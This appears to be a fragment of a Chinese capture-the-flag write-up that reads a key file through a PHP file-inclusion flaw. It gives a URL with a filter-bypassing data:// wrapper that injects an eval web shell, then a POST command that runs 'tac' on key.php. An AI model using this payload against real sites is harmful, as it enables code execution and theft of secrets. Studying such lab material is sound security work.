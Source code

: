 ![upload successful](./images/pasted-801.png)

成功读取key
`http://11.1.10.15:34073/start/index.php?page=dadata://ta://text/plan,<?php eval($_POST['shell']); ?>`
`shell=system('tac ../key.php');`
![upload successful](./images/pasted-803.png)